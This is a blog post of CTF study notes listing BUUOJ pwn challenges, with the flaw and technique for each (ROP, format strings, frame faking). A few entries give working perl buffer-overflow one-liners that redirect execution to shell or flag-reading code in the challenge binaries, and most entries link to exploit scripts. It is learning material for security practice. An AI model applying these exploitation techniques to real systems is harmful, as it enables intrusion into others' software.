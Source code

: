 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn"
date:   2020-08-26 22:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
   3. LibcSearcher
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Terminology

### [System call](https://blog.packagecloud.io/eng/2016/04/05/the-definitive-guide-to-linux-system-calls)

- x86:
  - system call via interrupt: `int 80`, `ebx, ecx, edx, esi, edi, ebp` with `eax` filled with system call number
- x86_64 with `rax` filled with system call number 
  - user call: `rdi, rsi, rdx, rcx, r8, r9`
  - system call: `rdi, rsi, rdx, r10, r8, r9`

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. [**RA**] rip
   1. `system("/bin/sh")` found
   2. segfault??? _TODO_
3. [**RA**] warmup_csaw_2016
   1. `system("cat flag.txt")` found
   2. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. [**RA**] pwn1_sctf_2016
   1. `'system("cat flag.txt")'` found
   2. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. [**RA**] ciscn_2019_n_1
   1. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**ROP**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**ROP**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. Flaw: `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**ROP**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1.  Peaceful exit ?
10. [**ROP**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5: [**Format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**ROP**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0
12. [**ROP**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1. Flaw: truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**ROP**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016
    1. Or [mprotect(.bss)](https://zhuanlan.zhihu.com/p/141065867), read and shellcode _TODO_
15. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop.py) [HarekazeCTF2019]baby_rop
16. [**ROP**]({{ site.url }}/assets/BJDCTF_2nd_one_gadget.py) [BJDCTF 2nd]one_gadget
    1. The [one_gadget](https://github.com/david942j/one_gadget) tool
17. [**ROP**]({{ site.url }}/assets/bjdctf_2020_babystack.py) bjdctf_2020_babystack
18. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_5.py) ciscn_2019_n_5
    1.  libc: `http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb`
19. [**ROP**]({{ site.url }}/assets/ciscn_2019_s_3.py) [ciscn_2019_s_3](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
    1.  Construct `"/bin/sh"` on stack
    2.  ROP via `__libc_csu_init()`
    3.  Or, [`sigreturn()`](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
20. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop_2.py) [HarekazeCTF2019]babyrop2
    1.  Leaked address of `printf()` ends with `"\x00"` and outputs nothing
    2.  Construct `"/bin/sh"` and ROP chain in .bss segment
21. [**ROP**]({{ site.url }}/assets/pwn2_sctf_2016.py) pwn2_sctf_2016
    1.  Flaw: only check if length<=0x20
22. [**ROP**]({{ site.url }}/assets/2018_rop.py) [铁人三项(第五赛区)] 2018_rop
23. [**ROP**]({{ site.url }}/assets/bjdctf_2020_babyrop.py) [bjdctf_2020] bjdctf_2020_babyrop
24. [**ROP**]({{ site.url }}/assets/ez_pz_hackover_2016.py) ez_pz_hackover_2016
    1.  [Flaw](http://mrbelieve.tech/2020/01/18/ez_pz_hackover_2016-%E7%BB%A7%E7%BB%AD%E6%B7%B1%E5%85%A5%E5%AD%A6%E4%B9%A0edb/): `strcmp` terminates at `"\x00"`
25. [**ROP**]({{ site.url }}/assets/jarvisoj_level2_x64.py) jarvisoj_level2_x64
26. [**ROP**]({{ site.url }}/assets/ciscn_2019_ne_5.py) ciscn_2019_ne_5
    1.  `system("sh")` works...
    2.  `scanf()` ignores `'\x0b'`
27. others_shellcode: `"/bin/////sh"` works fine
28. [**ROP**]({{ site.url }}/assets/ciscn_2019_es_2.py) ciscn_2019_es_2
    1.  [frame faking](https://g.yuque.com/goldrick/pl0aqm/ccd1iu)
29. [BJDCTF 2nd]test: 
    1.  Flaw: incomplete filters and privilege escalation using [shell(`x86_64`)](https://zhuanlan.zhihu.com/p/138482510)
30. [**ROP**]({{ site.url }}/assets/spwn.py) spwn:
    1.  frame faking